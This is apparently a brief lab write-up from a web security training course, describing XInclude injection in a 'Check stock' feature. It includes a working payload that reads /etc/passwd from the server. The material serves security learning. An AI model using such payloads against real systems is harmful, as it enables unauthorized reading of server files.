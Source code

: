 # Practitioner Lab 56: Exploiting XInclude to retrieve files

---

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

I started by looking for a parameter that might be vulnerable, I then went into that vulnerable parameter and inserted the Xinsert.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

This gave me access to the file. 

![Untitled](Practitioner%20Lab%2056%20Exploiting%20XInclude%20to%20retriev%2061c1c4e478d24c55b53dfcb5acaac326/Untitled.png)

This allowed me to see the /etc/passwd